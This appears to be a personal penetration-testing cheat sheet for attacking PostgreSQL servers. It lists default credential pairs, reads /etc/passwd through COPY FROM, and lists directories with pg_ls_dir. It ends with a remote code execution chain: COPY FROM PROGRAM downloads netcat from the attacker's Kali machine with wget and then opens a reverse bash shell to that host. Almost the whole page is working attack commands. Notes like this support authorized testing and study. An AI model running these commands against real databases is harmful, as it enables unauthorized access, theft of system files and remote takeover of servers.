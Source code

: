 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Try logging in with the following command and common creds:

```bash - kali
psql -h $TARGET -U postgres -p 5432
```

postgres : postgres
postgres : password
postgres : admin
admin : admin
admin : password

#### Database navigation
List all databases
```sql - postgresql
\l
```

Use specific database
```sql - postgresql
\c <DATABASE>
```

List all tables in current database
```sql - postgresql
\dt
```

Describe a table
```sql - postgresql
\d <TABLENAME>
```

Get user roles
```sql - postgresql
\du+
```


#### Read a file
```sql - postgresql
CREATE TABLE demo(t text);
```

```sql - postgresql
COPY demo from '/etc/passwd';
```

```sql - postgresql
SELECT * FROM demo;
```

#### Directory traversal
```sql - postgresql
select pg_ls_dir('./');
```

#### Remote Code Execution

In Kali:
```bash - kali
which nc
```

```bash - kali
cp /usr/bin/nc .
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

In postgres:

```sql - postgresql
\c postgres;
```

Clean up after yourself
```sql - postgresql
DROP TABLE IF EXISTS cmd_exec;
```

Create the table you want to hold the command output
```sql - postgresql
CREATE TABLE cmd_exec(cmd_output text);
```

Run the system command via the COPY FROM PROGRAM function
```sql - postgresql
COPY cmd_exec FROM PROGRAM 'wget http://$KALI/nc';
```

```sql - postgresql
DELETE FROM cmd_exec;
```

![[rlwrap]]

```sql - postgresql
COPY cmd_exec FROM PROGRAM 'nc -n $KALI 80 -e /usr/bin/bash';
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
